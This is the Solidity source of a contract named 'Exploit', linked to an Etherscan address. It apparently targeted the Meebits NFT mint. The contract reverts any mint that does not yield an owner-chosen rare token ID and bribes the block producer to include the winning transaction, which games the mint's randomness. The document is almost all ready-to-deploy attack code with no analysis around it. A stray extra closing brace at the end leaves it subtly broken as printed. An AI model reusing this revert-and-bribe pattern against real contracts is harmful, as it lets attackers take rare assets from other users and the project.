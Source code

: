 [Exploit contract](https://etherscan.io/address/0x270ff2308a29099744230de56e7b41c8ced46ffb)

```
pragma solidity 0.8.4;

interface IMeebits {
    function mintWithPunkOrGlyph(uint _createVia) external returns (uint);
}

contract Exploit {

    address private owner;
    mapping(uint => bool) internal meebitIds;
    IMeebits immutable meebits;
    
    constructor(address addr) {
        owner = msg.sender;
        meebits = IMeebits(addr);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "Caller is not owner");
        _;
    }

    function deposit() public payable {}

    function addMeebit(uint meebitId) onlyOwner public {
        meebitIds[meebitId] = true;
    }
    
    function deleteMeebit(uint meebitId) onlyOwner public {
        meebitIds[meebitId] = false;
    }

    function mintMeebit(uint _createVia) public returns(uint){

        // Mint a new meebit with a punk or glyph
        uint id = meebits.mintWithPunkOrGlyph(_createVia);

        // Make sure it's a desired rare meebit
        require(meebitIds[id], "Not a rare meebit");
        
        // Pay miner bribe to include the block
        (bool success, ) = block.coinbase.call{value: 1 ether}("");
        require(success);
        return id;
    }

    function recover(address recipient, uint256 value, bytes memory args) onlyOwner public {
        (bool success, ) = recipient.call{ value: value }(args);
        require(success);
    }
    
}
}
```
